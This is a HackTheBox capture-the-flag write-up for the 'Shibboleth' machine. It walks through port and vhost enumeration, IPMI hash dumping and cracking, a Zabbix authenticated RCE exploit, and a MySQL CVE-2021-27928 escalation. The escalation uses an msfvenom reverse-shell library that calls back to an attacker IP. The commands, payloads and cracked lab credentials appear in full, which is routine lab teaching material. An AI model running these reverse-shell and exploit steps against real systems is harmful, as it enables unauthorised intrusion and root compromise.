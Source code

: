 ```yaml
---
title: Shibboleth - Medium HTB
date: 2024-01-26 10:11:53 +/-0800
categories: [writeup, HackTheBox]
writeup: :title
permalink: /shibboleth
tags: [Zabbix, CVE, MYSQL]     # TAG names should always be lowercase
---
```


# Shibboleth

![Untitled](assets/Shibboleth/LOGO.png)

## **Scanning :**

Lets begin with a nmap to see what ports is opens on the target system : 

```python
> nmap -sS -sV -sC -T4 10.10.11.124 -Pn

#output
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://shibboleth.htb/
Service Info: Host: shibboleth.htb
```

Add the machine hostname to your `/etc/hosts` file: 

```bash
echo "10.10.11.124 shibboleth.htb" >> /etc/hosts
```

## **Enumerate the web service :**

use whatweb to see the technologie used by the web site : 

```bash
> whatweb -a 3 shibboleth.htb

#output 
http://shibboleth.htb [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,info@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.124], Lightbox, PoweredBy[enterprise], Script, Title[FlexStart Bootstrap Template - Index]
```

Lets lauch a gobuster bf to enumerate the web page :

```bash
> gobuster dir -u http://shibboleth.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t50

#output
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/server-status        (Status: 403) [Size: 279]
```

we found nothing interesting so we can try to bf the vhosts to find another web service.

Enumerate the vhost with fuff : 

```bash
> ffuf -u http://shibboleth.htb/ -H "Host: FUZZ.shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -fw 18

#output 
[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 290ms]
    * FUZZ: monitoring

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 292ms]
    * FUZZ: monitor

[Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 46ms]
    * FUZZ: zabbix
```

all vhosts redirect to the same page so you can add just one of the 3 to your/etc/hosts, and one comes across a login page of the zabbix software which is a monitoring software for computer park: 

![Untitled](assets/Shibboleth/login.png)

## **Enumerate and exploit zabbix :**

first I want to find the version of zabbix, I find on github repo with tools:

[GitHub - freeworkaz/zabbix_test: this is some scripts for pentesting zabbix server](https://github.com/freeworkaz/zabbix_test)

You must use the zabbix_version_detect.py script here the code after midification:

```python
"""
This script is for testing zabbix version
by version of the docs on the logon page
"""

import urllib2  
import re
from bs4 import BeautifulSoup  

zab_page='http://monitor.shibboleth.htb/index.php' 
page=urllib2.urlopen(zab_page)
soup = BeautifulSoup(page, 'html.parser')
for link in soup.findAll('a', attrs={'href': re.compile("documentation")}):
    version=link.get('href')

parts=re.split('/', version)

a=''.join (parts[4:5])
print "zabbix version is",a
```

run it see the version : 

```python
> python2 zabbix_version_detect.py 
zabbix version is 5.0
```

Lets rescan the target but that time with a udp scan : 

```python
> nmap -sU -T4 -Pn 10.10.11.124 -n --max-retries 1

623/udp open  asf-rmcp
```

after looking for information on port 623 I came across the [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi) page that my well informed on the subject.

Lets see the version of IPMI : 

```python
> nmap -sU --script ipmi-version -p 623 10.10.11.124

623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0
```

lets dump the admin hash with [ipmipwner](https://github.com/c0rnf13ld/ipmiPwner) : 

```python
> git clone https://github.com/c0rnf13ld/ipmiPwner

#install requirements : 
> ./requirements.sh

#dump admin hash
>./ipmipwner.py --host 10.10.11.124

[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[*] The username: Administrator is valid                                                                                    
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a002030000ebc053f6d5ef225d169dc8006bde6c16e8e71d82f8ff1cd441422c4f763f3348a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$a8e600ba41d6a1e70d9636a223af3374fb287b7b
```

Use john to crack the hash : 

```python
> john zabbix_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepumkinpie1  (?)     
1g 0:00:00:01 DONE (2023-12-24 11:30) 0.7462g/s 5526Kp/s 5526Kc/s 5526KC/s iluve.p..ilovejesus789
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And connect your self on the app : 

![Untitled](assets/Shibboleth/pannel_admin.png)

the next step is too gain reverse shell, I found a exploit who do that : 

https://www.exploit-db.com/exploits/50816

Downlaod it with searchsploit : `searchsploit -m 50816.py`

Run it and gain your reverse shell : 

```python
#run listener : 
> pwncat-cs :9001

#run the exploit you should by patient...
> python 50816.py http://monitor.shibboleth.htb/ "Administrator" "ilovepumkinpie1" 10.10.16.9 9001

[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/                                                                                                                                                                                 
[+] the payload has been Uploaded Successfully                                                                                                                                                                                              
[+] you should find it at http://monitor.shibboleth.htb//items.php?form=update&hostid=10084&itemid=33618                                                                                                                                    
[+] set the listener at 9002 please...                                                                                                                                                                                                      
[?] note : it takes up to +1 min so be patient :)                                                                                                                                                                                           
[+] got a shell ? [y]es/[N]o: y                                                                                                                                                                                                             
Nice !
```

You can can move lateraly on the user ipmi-svc, for that re use the password of the administrator hash. 

## **Privileges Escalation Exploit mysql CVE:**

After lot of enumeration we found the password of the db stored in the `/etc/zabbix/zabbix_server.conf`

```python
### Option: DBUser
#       Database user.
#
# Mandatory: no
# Default:
# DBUser=

DBUser=zabbix

### Option: DBPassword
#       Database password.
#       Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh
```

log your self on the db and start the enumeration : 

```python
#view the version of mysql
select version();
```

if we look for a known vuln on the internet there is a way to increase our privileges from mysql.

[GitHub - Al1ex/CVE-2021-27928: CVE-2021-27928 MariaDB/MySQL-'wsrep provider' 命令注入漏洞](https://github.com/Al1ex/CVE-2021-27928)

So step 1 on create the payload and start listener : 

```python
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.9 LPORT=1234 -f elf-so -o CVE-2021-27928.so

> nc -lnvp 1234
```

Now upload it with your pwncat session : 

```python
> upload CVE-2021-27928.so
```

Final exploit the mysql db : 

```python
#mysql shell 
> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

look your listner: 

![Untitled](assets/Shibboleth/root.png)

original deaths from the beginning to the end I hope she will serve me for Zephyr ! 😁
